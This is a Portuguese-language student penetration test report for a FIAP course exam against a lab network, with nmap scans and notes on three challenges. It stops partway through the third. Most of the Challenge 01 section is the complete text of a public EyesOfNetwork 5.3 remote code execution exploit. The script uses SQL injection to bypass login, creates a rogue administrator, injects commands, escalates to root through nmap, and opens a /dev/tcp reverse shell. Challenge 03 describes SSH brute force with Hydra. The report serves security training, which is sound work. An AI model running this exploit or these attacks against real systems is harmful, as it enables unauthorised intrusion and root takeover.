

# Relatório de Teste de Intrusão

**Assunto**

Relatório de teste de intrusão para laboratório interno e exame da Easy Cyber.

**Data**

12/11/2021

**Auditor(es)**

| **Nome**              | **FIAP ID** |
| --------------------- | ----------- |
| Guilherme Alves Peres | RM86055     |

**Localização**

São Paulo, Brasil

**Versão**

1.0

<div style="page-break-after: always;"></div>

**Índice**
- [Relatório de Teste de Intrusão](#relatório-de-teste-de-intrusão)
  - [Relatório de Teste de Intrusão](#relatório-de-teste-de-intrusão-1)
    - [Introdução](#introdução)
    - [Objetivo](#objetivo)
    - [Escopo](#escopo)
    - [Requisitos](#requisitos)
  - [Resumo de Alto Nível](#resumo-de-alto-nível)
    - [Recomendações](#recomendações)
  - [Metodologia](#metodologia)
    - [Coleta de Informações](#coleta-de-informações)
    - [Intrusão](#intrusão)
      - [IP 192.168.56.3 (Desafio 01)](#ip-192168563-desafio-01)
        - [Enumeração de Serviços (Desafio 01)](#enumeração-de-serviços-desafio-01)
        - [Resultado da varredura de nmap (Desafio 01)](#resultado-da-varredura-de-nmap-desafio-01)
        - [Vulnerabilidade de shell explorada inicialmente (Desafio 01)](#vulnerabilidade-de-shell-explorada-inicialmente-desafio-01)
        - [Informações adicionais sobre onde o shell inicial foi adquirido (Desafio 01)](#informações-adicionais-sobre-onde-o-shell-inicial-foi-adquirido-desafio-01)
        - [Explicação da vulnerabilidade (Desafio 01)](#explicação-da-vulnerabilidade-desafio-01)
        - [Correção da vulnerabilidade (Desafio 01)](#correção-da-vulnerabilidade-desafio-01)
        - [Gravidade (Desafio 01)](#gravidade-desafio-01)
        - [Código de exploração (Desafio 01)](#código-de-exploração-desafio-01)
        - [Captura de tela de prova (Desafio 01)](#captura-de-tela-de-prova-desafio-01)
      - [IP 192.168.56.5 (Desafio 02)](#ip-192168565-desafio-02)
        - [Enumeração de Serviços (Desafio 02)](#enumeração-de-serviços-desafio-02)
        - [Resultado da varredura de nmap (Desafio 02)](#resultado-da-varredura-de-nmap-desafio-02)
        - [Vulnerabilidade de shell explorada inicialmente (Desafio 02)](#vulnerabilidade-de-shell-explorada-inicialmente-desafio-02)
        - [Informações adicionais sobre onde o shell inicial foi adquirido (Desafio 02)](#informações-adicionais-sobre-onde-o-shell-inicial-foi-adquirido-desafio-02)
        - [Explicação da vulnerabilidade (Desafio 02)](#explicação-da-vulnerabilidade-desafio-02)
        - [Correção da vulnerabilidade (Desafio 02)](#correção-da-vulnerabilidade-desafio-02)
        - [Gravidade (Desafio 02)](#gravidade-desafio-02)
        - [Código de prova de conceito (Desafio 02)](#código-de-prova-de-conceito-desafio-02)
        - [Captura de tela inicial do shell (Desafio 02)](#captura-de-tela-inicial-do-shell-desafio-02)
        - [Escalonamento de privilégios (Desafio 02)](#escalonamento-de-privilégios-desafio-02)
        - [Informações adicionais sobre o escalonamento de privilégios (Desafio 02)](#informações-adicionais-sobre-o-escalonamento-de-privilégios-desafio-02)
        - [Vulnerabilidade explorada (Desafio 02)](#vulnerabilidade-explorada-desafio-02)
        - [Explicação da vulnerabilidade (Desafio 02)](#explicação-da-vulnerabilidade-desafio-02-1)
        - [Correção da vulnerabilidade (Desafio 02)](#correção-da-vulnerabilidade-desafio-02-1)
        - [Gravidade (Desafio 02)](#gravidade-desafio-02-1)
        - [Código de exploração (Desafio 02)](#código-de-exploração-desafio-02)
        - [Captura de tela de prova (Desafio 02)](#captura-de-tela-de-prova-desafio-02)
      - [IP 192.168.56.6 (Desafio 03)](#ip-192168566-desafio-03)
        - [Enumeração de Serviços (Desafio 03)](#enumeração-de-serviços-desafio-03)
        - [Resultado da varredura de nmap (Desafio 03)](#resultado-da-varredura-de-nmap-desafio-03)
        - [Vulnerabilidade de shell explorada inicialmente (Desafio 03)](#vulnerabilidade-de-shell-explorada-inicialmente-desafio-03)
        - [Informações adicionais sobre onde o shell inicial foi adquirido (Desafio 03)](#informações-adicionais-sobre-onde-o-shell-inicial-foi-adquirido-desafio-03)
        - [Explicação da vulnerabilidade (Desafio 03)](#explicação-da-vulnerabilidade-desafio-03)
        - [Correção da vulnerabilidade (Desafio 03)](#correção-da-vulnerabilidade-desafio-03)
        - [Gravidade (Desafio 03)](#gravidade-desafio-03)
        - [Código de prova de conceito (Desafio 03)](#código-de-prova-de-conceito-desafio-03)
        - [Captura de tela inicial do shell (Desafio 03)](#captura-de-tela-inicial-do-shell-desafio-03)
        - [Escalonamento de privilégios (Desafio 03)](#escalonamento-de-privilégios-desafio-03)
        - [Informações adicionais sobre o escalonamento de privilégios (Desafio 03)](#informações-adicionais-sobre-o-escalonamento-de-privilégios-desafio-03)
        - [Vulnerabilidade explorada (Desafio 03)](#vulnerabilidade-explorada-desafio-03)
        - [Explicação da vulnerabilidade (Desafio 03)](#explicação-da-vulnerabilidade-desafio-03-1)
        - [Correção da vulnerabilidade (Desafio 03)](#correção-da-vulnerabilidade-desafio-03-1)
        - [Gravidade (Desafio 03)](#gravidade-desafio-03-1)
        - [Código de exploração (Desafio 03)](#código-de-exploração-desafio-03)
        - [Captura de tela de prova (Desafio 03)](#captura-de-tela-de-prova-desafio-03)
      - [IP 192.168.56.7 (Desafio 04)](#ip-192168567-desafio-04)
        - [Enumeração de Serviços (Desafio 04)](#enumeração-de-serviços-desafio-04)
        - [Resultado da varredura de nmap (Desafio 04)](#resultado-da-varredura-de-nmap-desafio-04)
        - [Vulnerabilidade de shell explorada inicialmente (Desafio 04)](#vulnerabilidade-de-shell-explorada-inicialmente-desafio-04)
        - [Informações adicionais sobre onde o shell inicial foi adquirido (Desafio 04)](#informações-adicionais-sobre-onde-o-shell-inicial-foi-adquirido-desafio-04)
        - [Explicação da vulnerabilidade (Desafio 04)](#explicação-da-vulnerabilidade-desafio-04)
        - [Correção da vulnerabilidade (Desafio 04)](#correção-da-vulnerabilidade-desafio-04)
        - [Gravidade (Desafio 04)](#gravidade-desafio-04)
        - [Código de prova de conceito (Desafio 04)](#código-de-prova-de-conceito-desafio-04)
        - [Captura de tela inicial do shell (Desafio 04)](#captura-de-tela-inicial-do-shell-desafio-04)
        - [Escalonamento de privilégios (Desafio 04)](#escalonamento-de-privilégios-desafio-04)
        - [Informações adicionais sobre o escalonamento de privilégios (Desafio 04)](#informações-adicionais-sobre-o-escalonamento-de-privilégios-desafio-04)
        - [Vulnerabilidade explorada (Desafio 04)](#vulnerabilidade-explorada-desafio-04)
        - [Explicação da vulnerabilidade (Desafio 04)](#explicação-da-vulnerabilidade-desafio-04-1)
        - [Correção da vulnerabilidade (Desafio 04)](#correção-da-vulnerabilidade-desafio-04-1)
        - [Gravidade (Desafio 04)](#gravidade-desafio-04-1)
        - [Código de exploração (Desafio 04)](#código-de-exploração-desafio-04)
        - [Captura de tela de prova (Desafio 04)](#captura-de-tela-de-prova-desafio-04)
      - [IP 192.168.56.9 (Desafio 05)](#ip-192168569-desafio-05)
        - [Enumeração de Serviços (Desafio 05)](#enumeração-de-serviços-desafio-05)
        - [Resultado da varredura de nmap (Desafio 05)](#resultado-da-varredura-de-nmap-desafio-05)
        - [Vulnerabilidade de shell explorada inicialmente (Desafio 05)](#vulnerabilidade-de-shell-explorada-inicialmente-desafio-05)
        - [Informações adicionais sobre onde o shell inicial foi adquirido (Desafio 05)](#informações-adicionais-sobre-onde-o-shell-inicial-foi-adquirido-desafio-05)
        - [Explicação da vulnerabilidade (Desafio 05)](#explicação-da-vulnerabilidade-desafio-05)
        - [Correção da vulnerabilidade (Desafio 05)](#correção-da-vulnerabilidade-desafio-05)
        - [Gravidade (Desafio 05)](#gravidade-desafio-05)
        - [Código de prova de conceito (Desafio 05)](#código-de-prova-de-conceito-desafio-05)
        - [Captura de tela inicial do shell (Desafio 05)](#captura-de-tela-inicial-do-shell-desafio-05)
        - [Escalonamento de privilégios (Desafio 05)](#escalonamento-de-privilégios-desafio-05)
        - [Informações adicionais sobre o escalonamento de privilégios (Desafio 05)](#informações-adicionais-sobre-o-escalonamento-de-privilégios-desafio-05)
        - [Vulnerabilidade explorada (Desafio 05)](#vulnerabilidade-explorada-desafio-05)
        - [Explicação da vulnerabilidade (Desafio 05)](#explicação-da-vulnerabilidade-desafio-05-1)
        - [Correção da vulnerabilidade (Desafio 05)](#correção-da-vulnerabilidade-desafio-05-1)
        - [Gravidade (Desafio 05)](#gravidade-desafio-05-1)
        - [Código de exploração (Desafio 05)](#código-de-exploração-desafio-05)
        - [Captura de tela de prova (Desafio 05)](#captura-de-tela-de-prova-desafio-05)
  - [Itens Adicionais](#itens-adicionais)

<div style="page-break-after: always;"></div>

## Relatório de Teste de Intrusão

### Introdução

O relatório de teste de intrusão do Laboratório de Segurança Ofensiva da Easy Cyber, contém todos os esforços realizados para identificar os gaps técnicos e possibilidades de reskilling.

Este relatório contém todos os itens que foram usados para avaliação semestral do curso de Defesa Cibernética da FIAP e será avaliado do ponto de vista de exatidão e plenitude para todos os aspectos do exame.

### Objetivo

O objetivo deste relatório é garantir que o aluno tenha uma compreensão total das metodologias de teste de intrusão, bem como o conhecimento técnico para passar nas qualificações para o Offensive Security Certified Professional.

O aluno é encarregado de seguir uma abordagem metódica na obtenção de acesso aos objetivos. Este teste deve simular um teste de intrusão real e como você começaria do início ao fim, incluindo o relatório geral.

### Escopo

Nesta sessão apresento as ferramentas e detalhes do ambiente de laboratório utilizado:
* **Sistema Operacional**: Ubuntu 21.04
* **Virtualizador**: Oracle VirtualBox, versão 6
* **Ferramentas**:
  * **Enumeração**: NMAP, dirb, cewl, enum4linux
  * **Exploração**: Metasploit, MSFConsole, Hydra

### Requisitos

O aluno deverá preencher este relatório de teste de instrusão totalmente e incluir as seguintes seções:
* Resumo geral de alto nível e recomendações (não técnicas)
* Passo a passo da metodologia e esboço detalhado das etapas tomadas
* Cada descoberta com capturas de tela incluídas, passo a passo, código de amostra e proof.txt se aplicável.
* Quaisquer itens adicionais que não foram incluídos

<div style="page-break-after: always;"></div>

## Resumo de Alto Nível

Fui encarregado de realizar um teste de intrusão interno na FIAP Coin. Um teste de intrusão interna é um ataque dedicado contra sistemas conectados internamente. O foco deste teste é realizar ataques semelhantes aos de um hacker e tentar se infiltrar nos sistemas de laboratório internos da FIAP Coin - o domínio fiap.coin. Meu objetivo geral era avaliar a rede, identificar sistemas e explorar falhas enquanto relatava as descobertas à Segurança ofensiva.

Ao realizar o teste de intrusão interna, várias vulnerabilidades alarmantes foram identificadas na rede da FIAP Coin. Ao realizar os ataques, consegui obter acesso a várias máquinas, principalmente devido a patches desatualizados e configurações de segurança deficientes. Durante o teste, tive acesso de nível administrativo a vários sistemas. Todos os sistemas foram explorados com sucesso e o acesso foi concedido. Esses sistemas, bem como uma breve descrição de como o acesso foi obtido, estão listados abaixo:

* [192.168.56.3 (Desafio 01) - EyesOfNetwork 5.3 - Remote Code Execution](#ip-192168563-desafio-01)
* [192.168.56.5 (Desafio 02) - ](#ip-192168565-desafio-02)
* [192.168.56.6 (Desafio 03) - Brute force](#ip-192168566-desafio-03)
* [192.168.56.8 (Desafio 04) - ](#ip-192168567-desafio-04)
* [192.168.56.9 (Desafio 05) - Brute force](#ip-192168569-desafio-05)

### Recomendações

Eu recomendo corrigir as vulnerabilidades identificadas durante o teste para garantir que um invasor não possa explorar esses sistemas no futuro. Uma coisa a lembrar é que esses sistemas requerem patch frequentes e, uma vez corrigidos, devem permanecer em um programa de patch regular para proteger vulnerabilidades adicionais que são descobertas em uma data posterior.

<div style="page-break-after: always;"></div>

## Metodologia

Usei uma abordagem amplamente adotada para realizar o teste de intrusão que é eficaz para testar o quão bem os ambientes da FIAP Coin estão protegidos. Abaixo está um resumo de como fui capaz de identificar e explorar a variedade de sistemas e inclui todas as vulnerabilidades individuais encontradas.

### Coleta de Informações

A parte de coleta de informações de um teste de intrusão concentra-se na identificação do escopo do teste de intrusão. Durante este teste de intrusão, fui incumbido de explorar a rede do laboratório. O endereço de IP específico era:

Lab Network
* 192.168.56.0/24

### Intrusão

As partes do teste de intrusão da avaliação se concentram fortemente em obter acesso a uma variedade de sistemas. Durante este teste de intrusão, consegui obter acesso aos 5 dos sistemas 5 com sucesso.

<div style="page-break-after: always;"></div>

#### IP 192.168.56.3 (Desafio 01)

##### Enumeração de Serviços (Desafio 01)

| Server IP Address | Ports Open (TCP)    | Ports Open (UDP) |
| ----------------- | ------------------- | ---------------- |
| 192.168.56.3      | 80, 443, 3306, 5000 |

##### Resultado da varredura de nmap (Desafio 01)

```shell
$ sudo nmap -p- -AsV --open 192.168.56.3
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-11 20:23 EST
Nmap scan report for 192.168.56.3
Host is up (0.0011s latency).
Not shown: 65510 filtered ports, 21 closed ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE  VERSION
80/tcp   open  http     Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16 mod_perl/2.0.11 Perl/v5.16.3)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16 mod_perl/2.0.11 Perl/v5.16.3
|_http-title: Did not follow redirect to https://192.168.56.3/
443/tcp  open  ssl/http Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16 mod_perl/2.0.11 Perl/v5.16.3)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16 mod_perl/2.0.11 Perl/v5.16.3
| http-title: EyesOfNetwork
|_Requested resource was /login.php##
| ssl-cert: Subject: commonName=localhost/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2021-04-03T14:37:22
|_Not valid after:  2022-04-03T14:37:22
|_ssl-date: TLS randomness does not represent time
3306/tcp open  mysql    MariaDB (unauthorized)
5000/tcp open  http     SimpleHTTPServer 0.6 (Python 2.7.5)
|_http-title: Scalable Cost Effective Cloud Storage for Developers
MAC Address: 08:00:27:B1:F0:B8 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.11
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   1.12 ms 192.168.56.3

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 145.21 seconds
```



Como de praxe, é verificado o que é apresentado pelo servidor web, em sua tela inicial já é possível identificar a aplicação que é executada.


Com o apoio do metasploit framework pesquisei por possíveis exploits da aplicação "Eyes Of Network", foi apresentado um exploit com ótima colocação para as versões 5.1 à 5.3 da aplicação.



Para a validação da versão da aplicação, procurei  por indícios em algum arquivo listado no servidor de web. Ao realizar uma análise do código fonte é possível verificar que a aplicação carrega alguns arquivos específicos de extensão css. Através do arquivo eonweb.css constatei e validei a versão, sendo 5.2. Sendo assim, é possível professeguir com a utilização do exploit.




##### Vulnerabilidade de shell explorada inicialmente (Desafio 01)

Code Injection

##### Informações adicionais sobre onde o shell inicial foi adquirido (Desafio 01)

<https://www.exploit-db.com/exploits/48025>

##### Explicação da vulnerabilidade (Desafio 01)

Este módulo explora várias vulnerabilidades no EyesOfNetwork versão 5.1, 5.2 e 5.3 para executar comandos arbitrários como root.

Este módulo tira proveito de uma vulnerabilidade de injeção de comando no parâmetro `target` da funcionalidade AutoDiscovery na interface da web EON para escrever um script Nmap NSE contendo a carga útil para o disco.

Em seguida, ele inicia uma varredura Nmap para ativar a carga útil. Isso resulta em um aumento de privilégios porque o usuário `apache` pode executar o Nmap como root.

São necessárias credenciais válidas para um usuário com privilégios administrativos. No entanto, este módulo pode ignorar a autenticação por meio de vários métodos, dependendo da versão EON.

EON 5.3 é vulnerável a uma chave de API codificada e dois exploits de injeção de SQL. EON 5.1 e 5.2 só podem ser explorados por injeção de SQL. Este módulo foi testado com sucesso no EyesOfNetwork 5.1, 5.2 e 5.3.

##### Correção da vulnerabilidade (Desafio 01)

Atualização da aplicação, onde é corrigido os módulos e parâmetros utilizados que possibilitam o code/sql injection.

FIX modifyNagiosMainConfiguration set value to none (null)

FIX mysql_real_escape_string() for [username,password,apiKey] variables

FIX APIKEY is now based on machine-id

Também é recomendado que o apache seja executado por um usuário sem permissão de root.

##### Gravidade (Desafio 01)

Crítica

##### Código de exploração (Desafio 01)

```py
# Exploit Title: EyesOfNetwork 5.3 - Remote Code Execution
# Date: 2020-02-01
# Exploit Author: Clément Billac
# Vendor Homepage: https://www.eyesofnetwork.com/
# Software Link: http://download.eyesofnetwork.com/EyesOfNetwork-5.3-x86_64-bin.iso
# Version: 5.3
# CVE : CVE-2020-8654, CVE-2020-8655, CVE-2020-8656

#!/bin/env python3
# coding: utf8
#
#
# CVE-2020-8654 - Discovery module to allows to run arbitrary OS commands
#                 We were able to run the 'id' command with the following payload in the target field : ';id #'.
#
# CVE-2020-8655 - LPE via nmap NSE script
#                 As the apache user is allowed to run nmap as root, we were able to execute arbitrary commands by providing a specially crafted NSE script.
#                 nmap version 6.40 is used and doesn't have the -c and -e options.
#
# CVE-2020-8656 - SQLi in API in getApiKey function on 'username' field
#                 PoC: /eonapi/getApiKey?username=' union select sleep(3),0,0,0,0,0,0,0 or '
#                 Auth bypass: /eonapi/getApiKey?&username=' union select 1,'admin','1c85d47ff80b5ff2a4dd577e8e5f8e9d',0,0,1,1,8 or '&password=h4knet

# Python imports
import sys, requests, json, os, argparse, socket
from bs4 import BeautifulSoup

# Text colors
txt_yellow = "\033[01;33m"
txt_blue = "\033[01;34m"
txt_red = "\033[01;31m"
txt_green = "\033[01;32m"
txt_bold = "\033[01;01m"
txt_reset = "\033[00m"
txt_info = txt_blue + "[*] " + txt_reset
txt_success = txt_green + "[+] " + txt_reset
txt_warn = txt_yellow + "[!] " + txt_reset
txt_err = txt_red + "[x] " + txt_reset

# Banner
banner = (txt_bold + """
+-----------------------------------------------------------------------------+
| EyesOfNetwork 5.3 RCE (API v2.4.2)                                          |
| 02/2020 - Clément Billac \033[01;34mTwitter: @h4knet\033[00m                                   |
|                                                                             |
| Examples:                                                                   |
| eonrce.py -h                                                                |
| eonrce.py http(s)://EyesOfNetwork-URL                                       |
| eonrce.py https://eon.thinc.local -ip 10.11.0.182 -port 3128                |
| eonrce.py https://eon.thinc.local -ip 10.11.0.182 -user pentest2020         |
+-----------------------------------------------------------------------------+
""" + txt_reset)

# Arguments Parser
parser = argparse.ArgumentParser("eonrce", formatter_class=argparse.RawDescriptionHelpFormatter, usage=banner)
parser.add_argument("URL", metavar="URL", help="URL of the EyesOfNetwork server")
parser.add_argument("-ip", metavar="IP", help="Local IP to receive reverse shell", default=socket.gethostbyname(socket.gethostname()))
parser.add_argument("-port", metavar="Port", type=int, help="Local port to listen", default=443)
parser.add_argument("-user", metavar="Username", type=str, help="Name of the new user to create", default='h4ker')
parser.add_argument("-password", metavar="Password", type=str, help="Password of the new user", default='net_was_here')
args = parser.parse_args()

# HTTP Requests config
requests.packages.urllib3.disable_warnings()
baseurl = sys.argv[1].strip('/')
url = baseurl
useragent = 'Mozilla/5.0 (Windows NT 1.0; WOW64; rv:13.37) Gecko/20200104 Firefox/13.37'

# Admin user creation variables
new_user = args.user
new_pass = args.password

# Executed command
# The following payload performs both the LPE and the reverse shell in a single command.
# It creates a NSE script in /tmp/h4k wich execute /bin/sh with reverse shell and then perform the nmap scan on localhost with the created NSE script.
# Readable PoC: ;echo "local os = require \"os\" hostrule=function(host) os.execute(\"/bin/sh -i >& /dev/tcp/192.168.30.112/8081 0>&1\") end action=function() end" > /tmp/h4k;sudo /usr/bin/nmap localhost -p 1337 -script /tmp/h4k #
ip = args.ip
port = str(args.port)
cmd = '%3Becho+%22local+os+%3D+require+%5C%22os%5C%22+hostrule%3Dfunction%28host%29+os.execute%28%5C%22%2Fbin%2Fsh+-i+%3E%26+%2Fdev%2Ftcp%2F' + ip + '%2F' + port + '+0%3E%261%5C%22%29+end+action%3Dfunction%28%29+end%22+%3E+%2Ftmp%2Fh4k%3Bsudo+%2Fusr%2Fbin%2Fnmap+localhost+-p+1337+-script+%2Ftmp%2Fh4k+%23'

# Exploit banner
print (txt_bold,"""+-----------------------------------------------------------------------------+
| EyesOfNetwork 5.3 RCE (API v2.4.2)                                          |
| 02/2020 - Clément Billac \033[01;34mTwitter: @h4knet\033[00m                                  |
+-----------------------------------------------------------------------------+
""", txt_reset, sep = '')

# Check if it's a EyesOfNetwork login page.
r = requests.get(baseurl, verify=False, headers={'user-agent':useragent})
if r.status_code == 200 and r.text.find('<title>EyesOfNetwork</title>') != -1 and r.text.find('form action="login.php" method="POST">') != -1:
	print(txt_info, "EyesOfNetwork login page found", sep = '')
else:
	print(txt_err, 'EyesOfNetwork login page not found', sep = '')
	quit()

# Check for accessible EON API
url = baseurl + '/eonapi/getApiKey'
r = requests.get(url, verify=False, headers={'user-agent':useragent})
if r.status_code == 401 and 'api_version' in r.json().keys() and 'http_code' in r.json().keys():
	print(txt_info, 'EyesOfNetwork API page found. API version: ',txt_bold , r.json()['api_version'], txt_reset, sep = '')
else:
	print(txt_warn, 'EyesOfNetwork API page not found', sep = '')
	quit()

# SQL injection with authentication bypass
url = baseurl + '/eonapi/getApiKey?&username=%27%20union%20select%201,%27admin%27,%271c85d47ff80b5ff2a4dd577e8e5f8e9d%27,0,0,1,1,8%20or%20%27&password=h4knet'
r = requests.get(url, verify=False, headers={'user-agent':useragent})
if r.status_code == 200 and 'EONAPI_KEY' in r.json().keys():
	print(txt_success, 'Admin user key obtained: ', txt_bold, r.json()['EONAPI_KEY'], txt_reset, sep = '')
else:
	print(txt_err, 'The host seems patched or unexploitable', sep = '')
	print(txt_warn, 'Did you specified http instead of https in the URL ?', sep = '')
	print(txt_warn, 'You can check manually the SQLi with the following payload: ', txt_bold, "/eonapi/getApiKey?username=' union select sleep(3),0,0,0,0,0,0,0 or '", txt_reset, sep = '')
	quit()

# Adding new administrator
url = sys.argv[1].strip('/') + '/eonapi/createEonUser?username=admin&apiKey=' + r.json()['EONAPI_KEY']
r = requests.post(url, verify=False, headers={'user-agent':useragent}, json={"user_name":new_user,"user_group":"admins","user_password":new_pass})
if r.status_code == 200 and 'result' in r.json().keys():
	if r.json()['result']['code'] == 0 and 'SUCCESS' in  r.json()['result']['description']:
		id = r.json()['result']['description'].split('ID = ', 1)[1].split(']')[0]
		print(txt_success, 'New user ', txt_bold, new_user, txt_reset, ' successfully created. ID:', txt_bold,  id, txt_reset, sep = '')

	elif r.json()['result']['code'] == 1:
		if ' already exist.' in  r.json()['result']['description']:
			print(txt_warn, 'The user ', txt_bold, new_user, txt_reset, ' already exists', sep = '')
		else:
			print(txt_err, 'An error occured while querying the API. Unexpected description message: ', txt_bold, r.json()['result']['description'], txt_reset, sep = '')
			quit()
	else:
		print(txt_err, 'An error occured while querying the API. Unepected result code. Description: ', txt_bold, r.json()['result']['description'], txt_reset, sep = '')
		quit()
else:
	print(txt_err, 'An error occured while querying the API. Missing result value in JSON response or unexpected HTTP status response', sep = '')
	quit()

# Authentication with our new user
url = baseurl + '/login.php'
auth_data = 'login=' + new_user + '&mdp=' +new_pass
auth_req = requests.post(url, verify=False, headers={'user-agent':useragent,'Content-Type':'application/x-www-form-urlencoded'}, data=auth_data)
if auth_req.status_code == 200 and 'Set-Cookie' in auth_req.headers:
	print(txt_success, 'Successfully authenticated', sep = '')
else:
	print(txt_err, 'Error while authenticating. We expect to receive Set-Cookie headers uppon successful authentication', sep = '')
	quit()

# Creating Discovery job
url = baseurl + '/lilac/autodiscovery.php'
job_command = 'request=autodiscover&job_name=Internal+discovery&job_description=Internal+EON+discovery+procedure.&nmap_binary=%2Fusr%2Fbin%2Fnmap&default_template=&target%5B2%5D=' + cmd
r = requests.post(url, verify=False, headers={'user-agent':useragent,'Content-Type':'application/x-www-form-urlencoded'}, cookies=auth_req.cookies, data=job_command)
if r.status_code == 200 and r.text.find('Starting...') != -1:
	job_id = str(BeautifulSoup(r.content, "html.parser").find(id="completemsg")).split('?id=', 1)[1].split('&rev')[0]
	print(txt_success, 'Discovery job successfully created with ID: ', txt_bold, job_id, txt_reset, sep = '')
else:
	print(txt_err, 'Error while creating the discovery job', sep = '')
	quit()

# Launching listener
print(txt_info, 'Spawning netcat listener:', txt_bold)
nc_command = '/usr/bin/nc -lnvp' + port + ' -s ' + ip
os.system(nc_command)
print(txt_reset)

# Removing job
url = baseurl + '/lilac/autodiscovery.php?id=' + job_id + '&delete=1'
r = requests.get(url, verify=False, headers={'user-agent':useragent}, cookies=auth_req.cookies)
if r.status_code == 200 and r.text.find('Removed Job') != -1:
	print(txt_info, 'Job ', job_id, ' removed', sep = '')
else:
	print(txt_err, 'Error while removing the job', sep = '')
	quit()
```

##### Captura de tela de prova (Desafio 01)


<div style="page-break-after: always;"></div>

#### IP 192.168.56.5 (Desafio 02)

##### Enumeração de Serviços (Desafio 02)

| Server IP Address | Ports Open (TCP)             | Ports Open (UDP) |
| ----------------- | ---------------------------- | ---------------- |
| 192.168.56.5      | 21,80                        |

##### Resultado da varredura de nmap (Desafio 02)

```shell
$ sudo nmap -p- -AsV --open 192.168.56.5

Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-12 08:45 EST
Nmap scan report for 192.168.56.5
Host is up (0.0041s latency).
Not shown: 65533 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
80/tcp open  http    Apache httpd 2.4.18
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-06-10 18:05  site/
|_
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Index of /
MAC Address: 08:00:27:69:64:71 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.11, Linux 3.16 - 4.6, Linux 3.2 - 4.9, Linux 4.4
Network Distance: 1 hop
Service Info: Host: 127.0.1.1; OS: Unix

TRACEROUTE
HOP RTT     ADDRESS
1   4.05 ms 192.168.56.5

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 163.92 seconds
```



##### Vulnerabilidade de shell explorada inicialmente (Desafio 02)

SQL Injection

##### Informações adicionais sobre onde o shell inicial foi adquirido (Desafio 02)

Através do campo de buscar apresentado na página de busca. É possível realizar a inserção de instruções de interação com o shell.


##### Explicação da vulnerabilidade (Desafio 02)

Através de parâmetros não tratados é possível coletar evidências a partir desta interação.

##### Correção da vulnerabilidade (Desafio 02)

É necessário fazer a tratativa dos parâmetros do formulário da página.

##### Gravidade (Desafio 02)

Alta

##### Código de prova de conceito (Desafio 02)

##### Captura de tela inicial do shell (Desafio 02)



##### Escalonamento de privilégios (Desafio 02)

##### Informações adicionais sobre o escalonamento de privilégios (Desafio 02)

##### Vulnerabilidade explorada (Desafio 02)

##### Explicação da vulnerabilidade (Desafio 02)

##### Correção da vulnerabilidade (Desafio 02)

##### Gravidade (Desafio 02)

##### Código de exploração (Desafio 02)

##### Captura de tela de prova (Desafio 02)

<div style="page-break-after: always;"></div>

#### IP 192.168.56.6 (Desafio 03)

##### Enumeração de Serviços (Desafio 03)

| Server IP Address | Ports Open (TCP)             | Ports Open (UDP) |
| ----------------- | ---------------------------- | ---------------- |
| 192.168.56.6      | 22, 80                       |

##### Resultado da varredura de nmap (Desafio 03)

```shell
sudo nmap -p- -AsV --open 192.168.56.6
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-12 11:19 EST
Nmap scan report for 192.168.56.6
Host is up (0.0011s latency).
Not shown: 65533 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 5e:b4:70:fe:8d:2b:41:f3:fc:3c:26:28:3d:6d:cd:be (RSA)
|   256 35:8a:1f:8b:a5:82:2c:2f:36:73:13:e8:fd:cf:43:87 (ECDSA)
|_  256 c7:13:7a:05:cb:5e:26:0f:b6:64:e9:dc:69:ce:93:00 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: desafio03 \xC2\xB7 GitHub
MAC Address: 08:00:27:5B:67:CE (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.11, Linux 3.16 - 4.6, Linux 3.2 - 4.9, Linux 4.4
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   1.13 ms 192.168.56.6

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 139.65 seconds
```

##### Vulnerabilidade de shell explorada inicialmente (Desafio 03)

Esta VM apresenta características de hardening. Não foram encontradas indícios relevantes que pudessem ser explorados, como a porta ssh encontra-se em aberta, parti para o brute force.

Através de wordlists comuns não foi possível obter as credencias, utilizei de uma wordlist com o conteúdo apresentado no servidor web.





##### Informações adicionais sobre onde o shell inicial foi adquirido (Desafio 03)

Através do brute force com o hydra e wordlists geradas através de palavras da index.html do web server.

##### Explicação da vulnerabilidade (Desafio 03)

